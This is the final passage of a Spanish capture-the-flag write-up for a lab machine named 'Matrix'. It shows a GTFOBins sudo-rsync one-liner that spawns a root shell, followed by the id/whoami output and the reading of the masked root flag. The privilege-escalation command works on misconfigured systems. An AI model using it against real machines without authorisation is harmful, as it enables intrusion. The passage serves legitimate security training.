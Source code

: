 Podemos ejecutar rsync como el usuario root, gracias a gtfobins encontramos esta forma de escalar a root.

![alt text](../../../assets/images/matrix/image-17.png)

Lo ejecutamos y obtenemos shell como root y leemos la flag.

```bash
smith@matrix:~$ sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
uid=0(root) gid=0(root) grupos=0(root)
# whoami
root
# cat /root/root.txt
5XXXXXXXXXXXXXXXXXa
# 
```

Esto es todo.

Espero que os haya gustado, que hayáis aprendido algo o, como mínimo, que hayáis pasado un buen rato resolviendo el misterio de entrar en "la mente" de Matrix. 😉

